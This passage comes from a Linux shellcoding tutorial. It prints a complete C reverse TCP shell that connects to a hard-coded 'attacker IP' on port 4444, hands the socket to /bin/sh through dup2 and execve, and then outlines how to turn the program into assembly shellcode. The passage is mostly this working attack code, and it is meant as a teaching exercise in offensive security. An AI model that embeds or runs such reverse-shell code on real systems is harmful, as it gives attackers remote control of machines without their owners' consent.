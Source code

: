 We will take the C code that starts the reverse TCP shell from one of my [previous](https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html) posts.          
So our base (`shell.c`):
```cpp
/*
shell.c - reverse TCP shell
author: @cocomelonc
demo shell for linux shellcoding example
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "127.0.0.1";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

### assembly preparation

As shown in the C source code, you need to translate the following calls into Assembly language:           
 - create a socket.             
 - connect to a specified IP and port.          
 - then redirect stdin, stdout, stderr via `dup2`.      
 - launch the shell with `execve`.           
